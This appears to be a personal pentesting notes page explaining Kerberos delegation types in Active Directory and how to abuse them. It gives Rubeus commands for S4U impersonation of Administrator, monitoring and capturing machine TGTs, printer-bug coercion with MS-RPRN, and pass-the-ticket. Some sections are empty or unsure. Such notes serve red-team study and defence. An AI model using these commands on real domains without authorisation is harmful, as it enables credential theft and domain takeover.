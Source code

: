 # Delegations

## Theory

Kerberos delegation allow to "reuse the end-user credentials to access resources osted on a different server"\


<figure><img src="../../../../.gitbook/assets/Pasted image 20230911095916 (1).png" alt=""><figcaption></figcaption></figure>

Delegation allows the web server to impersonate the user to access its files, making the file server believe that the user is performing the actions. The ability to relay credentials can be given to an account that has at least one SPN. The types of delegation today are three:

* Uncostrained Delegation
* Constrained Delegation
* Resource Based Constrained Delegation

## **Uncostrained Delegation**

With this type of delegation, the server or service account to which delegation is granted can impersonate the user for any service or host.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103746 (1).png" alt=""><figcaption></figcaption></figure>

## **Constrained Delegation**

The delegate will have a list of users for whom they have delegation and a list of services or servers they can access with specific delegations.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103801.png" alt=""><figcaption></figcaption></figure>

## **Resource Based Constrained Delegation**

Like the constrained delegation, but this tike the delegation authority is the resource host itself.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103731.png" alt=""><figcaption></figcaption></figure>

## Abuse

### Constrained Delegation

With the account with the permission's hash launch rubeus to ask a tgt as administrator

{% code overflow="wrap" %}
```powershell
./Rubeus.exe s4u /user:<USER> /aes256:<AES256 HASH> /impersonateuser:Administrator /msdsspn:"<FOUND SERVICE>" /ptt
```
{% endcode %}

### Unconstrained Delegation

First, we need to find out the machines in the domain with unconstrained delegation. We can use PowerView for that. I used BloodHound.

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Connect to the machine with unconstrained delegation and use rubeus to monitor

```
Rubeus.exe monitor /targetuser:US-DC$ /interval:5  /nowrap
```

And now abuse the printer bug to receive a tgt

```
MS-RPRN.exe \\<$Dc> \\<$Target>
```

Now pass the [ticket](../../lateral-movement/pass-the/pass-the-ticket.md)

### Resource Based Constrained Delegation



### Monitor for Delegation

idk if it's really a delegation&#x20;

Launch rubeus

```powershell
./Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```

&#x20;Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)

```powershell
./MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```

Rubeus is triggered

Copy the ticket and use it with rubeus on the local machine

```powershell
./Rubeus.exe ptt /ticket:<TICKET>
```
